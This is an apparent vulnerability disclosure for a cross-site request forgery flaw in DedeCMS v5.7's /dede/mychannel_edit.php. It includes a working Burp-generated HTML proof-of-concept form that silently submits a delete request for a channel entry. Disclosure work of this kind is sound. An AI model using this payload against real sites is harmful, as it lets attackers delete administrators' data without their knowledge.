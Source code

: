 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/mychannel_edit.php

![1](https://github.com/777erp/cms/assets/113673221/86b6ce84-9ef6-4e2a-87bd-3b9c53ea83c9)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/mychannel_edit.php" method="POST">
      <input type="hidden" name="job" value="yes" />
      <input type="hidden" name="dopost" value="delete" />
      <input type="hidden" name="id" value="6" />
      <input type="hidden" name="imageField1&#46;x" value="30" />
      <input type="hidden" name="imageField1&#46;y" value="15" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/777erp/cms/assets/113673221/8f149256-e9c3-43c4-8356-3fdef529d19a)


Successed

![3](https://github.com/777erp/cms/assets/113673221/675394ee-8d15-4964-b43c-0a5b850711a3)

